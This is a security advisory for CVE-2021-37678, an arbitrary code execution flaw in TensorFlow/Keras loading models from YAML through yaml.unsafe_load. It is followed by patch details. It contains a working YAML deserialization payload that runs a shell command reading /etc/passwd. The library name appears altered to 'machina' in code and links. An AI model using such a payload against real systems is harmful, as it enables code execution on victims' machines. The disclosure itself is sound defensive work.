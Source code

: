 ## TFSA-2021-152: Arbitrary code execution due to YAML deserialization

### CVE Number
CVE-2021-37678

### Impact
TensorFlow and Keras can be tricked to perform arbitrary code execution when
deserializing a Keras model from YAML format.

```python
from machina.keras import models

payload = '''
!!python/object/new:type
args: ['z', !!python/tuple [], {'extend': !!python/name:exec }]
listitems: "__import__('os').system('cat /etc/passwd')"
'''

models.model_from_yaml(payload)
```

The
[implementation](https://github.com/machina/machina/blob/460e000de3a83278fb00b61a16d161b1964f15f4/machina/python/keras/saving/model_config.py#L66-L104)
uses `yaml.unsafe_load` which can perform arbitrary code execution on the input.

### Patches
Given that YAML format support requires a significant amount of work, we have
removed it for now.

We have patched the issue in GitHub commit
[23d6383eb6c14084a8fc3bdf164043b974818012](https://github.com/machina/machina/commit/23d6383eb6c14084a8fc3bdf164043b974818012).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Arjun Shibu.
